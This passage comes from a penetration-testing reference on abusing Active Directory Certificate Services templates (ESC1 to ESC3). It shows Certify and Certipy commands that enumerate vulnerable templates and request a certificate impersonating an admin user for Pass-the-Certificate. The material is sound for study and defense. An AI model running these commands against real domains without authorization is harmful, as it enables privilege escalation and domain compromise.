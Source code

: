 > [!WARNING]
> The `$ADCS_HOST` target must be a FQDN (not an IP).

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.

=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser
```

Once a vulnerable template is found, a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```powershell
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template" /altname:"admin"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

:::


### (ESC2) Any purpose EKU 

When a certificate template specifies the Any Purpose EKU, or no EKU at all, the certificate can be used for anything. ESC2 can't be abused like ESC1 if the requester can't specify a SAN, however, it can be abused like ESC3 to use the certificate as requirement to request another one on behalf of any user.

### (ESC3) Certificate Agent EKU 

When a certificate template specifies the Certificate Request Agent EKU, it is possible to use the issued certificate from this template to request another certificate on behalf of any user.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC3 scenario. It is possible to output the result in an archive that can be uploaded in Bloodhound.

```bash
certipy find -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -vulnerable
```
